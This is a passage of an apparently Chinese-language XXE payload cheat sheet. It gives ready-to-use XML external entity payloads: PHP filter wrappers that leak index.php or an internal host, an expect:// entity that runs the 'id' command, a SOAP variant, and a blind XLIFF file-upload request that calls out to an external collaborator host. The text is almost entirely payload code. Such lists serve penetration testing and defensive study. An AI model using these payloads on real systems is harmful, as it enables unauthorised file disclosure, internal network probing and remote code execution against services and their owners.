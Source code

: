 ### [PHP Wrappers](#toc_php-wrappers)

#### [Base64](#toc_base64_1)

##### [提取 index.php：](#toc_indexphp)

```plain
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### [提取外部资源：](#toc__4)

```plain
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">]>
```

#### [远程代码执行](#toc__5)

如果 PHP 的 expect 模块被加载了

```plain
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### [SOAP - XEE](#toc_soap-xee)

```plain
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### [XLIFF - XXE](#toc_xliff-xxe)

XLIFF（XML Localization Interchange File Format，XML 本地化交换文件格式）是一种基于 XML 的位文本格式，用于标准化本地化过程中可本地化数据在工具之间传递的方式，也是 CAT 工具交换的通用格式。

#### [Blind request](#toc_blind-request)

```plain
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
